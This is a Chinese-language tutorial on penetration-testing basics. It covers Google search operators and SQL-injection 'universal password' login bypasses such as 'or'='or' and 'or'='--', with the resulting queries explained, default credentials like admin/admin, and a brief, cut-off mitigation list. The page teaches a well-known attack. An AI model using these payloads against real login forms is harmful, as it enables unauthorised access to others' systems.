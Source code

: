 # 滲透基礎之數據庫原理

 Google搜索

首先，強烈推薦使用Google搜索

Google搜索提供強大的功能，給你精準的結果

 intitle:xia-tian-liang

搜索網頁標題包含xia-tian-liang字符的網頁。

 inurl:cbi

搜索包含特定字符cbi的URL。

 intext:cbi

搜索網頁正文內容包含特定字符cbi的網頁。

 filetype:ppt

搜索制定類型的文件，返回所有以ppt結尾的文件URL。

 site

找到與指定網站有聯繫的URL。

萬能密碼原理

萬能密碼通常是指開發人員在開發過程中使用超級管理員進行開發，開發完成後沒有過濾掉這些常用的超級管理員；另一種是存在SQL漏洞管理員賬號。

1.萬能密碼：用戶名 admin、密碼admin，用戶名admin、密碼123456

2.萬能密碼：用戶名 'or'='or'、密碼 'or'='or'

 原理解釋：假設用戶登錄對應的語句爲：

 select name, pwd from login where name='' and pwd='';

 如果用戶名輸入正確則直接登錄，否則提示用戶名或密碼錯誤，使用萬能密碼後的SQL語句如下：

 select name, pwd from login where name=''or'='or'' and pwd=''or'='or'';

 核心代碼，兩個單引號匹配，即name=''，然後or連接，單引號等於單引號\('='\)這是恆成立的，緊接着or連接兩個單引號\(''\)，同理密碼pwd。這樣or連接的\('='\)是恆成立的，故返回結果爲真，導致直接登錄。

3.萬能密碼：用戶名 'or''='、密碼'or''='

 原理解釋：此時對應的SQL語句如下：

 select name, pwd from login where name=''or''='' and pwd=''or''='';

4.萬能密碼：用戶名'or'='--、密碼'or'='--

 原理解釋：此時對應的SQL語句如下：

 select name, pwd from login where name=''or'='--' and pwd=''or'='--';

防範措施：

1.開發人員開發完成後，過濾掉admin等常用賬號或修改密碼；

